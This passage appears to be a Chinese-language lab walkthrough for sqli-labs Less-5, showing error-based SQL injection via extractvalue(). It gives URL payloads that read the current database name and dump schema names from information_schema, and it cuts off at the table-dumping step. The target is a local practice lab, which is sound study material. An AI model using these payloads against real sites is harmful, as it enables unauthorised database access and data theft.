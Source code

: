 
###  `extractvalue() `注入流程-Less-5

#### 查看数据库名

```
http://192.168.231.129:9001/Less-5/?id=1' and extractvalue(0x7e, concat(0x7e, (select database())))%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604163329293.png" alt="image-20230604163329293" style="zoom:50%;" />

#### 查看数据库中的所有数据库名（爆库）

由于显错注入一次最多只能显示30个字符，所以使用`substring()`分批显示

```
http://192.168.231.129:9001/Less-5/?id=1' and extractvalue(1, concat(0x7e, (select substring(group_concat(schema_name),31,30) from information_schema.schemata)))%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604165541233.png" alt="image-20230604165541233" style="zoom:50%;" />

#### 查看所有数据表（爆表）
